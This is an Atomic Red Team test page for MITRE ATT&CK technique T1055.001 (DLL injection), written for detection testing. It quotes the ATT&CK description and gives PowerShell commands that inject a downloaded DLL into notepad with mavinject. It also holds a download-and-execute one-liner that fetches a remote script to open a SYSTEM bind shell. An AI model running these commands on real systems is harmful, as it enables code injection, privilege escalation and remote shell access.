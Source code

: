 # T1055.001 - Dynamic-link Library Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/001)
<blockquote>Adversaries may inject dynamic-link libraries (DLLs) into processes in order to evade process-based defenses as well as possibly elevate privileges. DLL injection is a method of executing arbitrary code in the address space of a separate live process.  

DLL injection is commonly performed by writing the path to a DLL in the virtual address space of the target process before loading the DLL by invoking a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> (which calls the <code>LoadLibrary</code> API responsible for loading the DLL). (Citation: Elastic Process Injection July 2017) 

Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue as well as the additional APIs to invoke execution (since these methods load and execute the files in memory by manually preforming the function of <code>LoadLibrary</code>).(Citation: Elastic HuntingNMemory June 2017)(Citation: Elastic Process Injection July 2017) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via DLL injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique](#atomic-test-2---winpwn---get-system-shell---bind-system-shell-using-usoclient-dll-load-technique)


<br/>

## Atomic Test #1 - Process Injection via mavinject.exe
Windows 10 Utility To Inject DLLS.

Upon successful execution, powershell.exe will download T1055.dll to disk. Powershell will then spawn mavinject.exe to perform process injection in T1055.dll.
With default arguments, expect to see a MessageBox, with notepad's icon in taskbar.

**Supported Platforms:** Windows


**auto_generated_guid:** 74496461-11a1-4982-b439-4d87a550d254





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_id | PID of input_arguments | Integer | (Start-Process notepad -PassThru).id|
| dll_payload | DLL to Inject | Path | PathToAtomicsFolder&#92;T1055.001&#92;src&#92;x64&#92;T1055.001.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING #{dll_payload}
Stop-Process -processname notepad
```




#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique
Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8b56f787-73d9-4f1d-87e8-d07e89cbc7f5






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/UsoDLL/Get-UsoClientDLLSystem.ps1')
```






<br/>
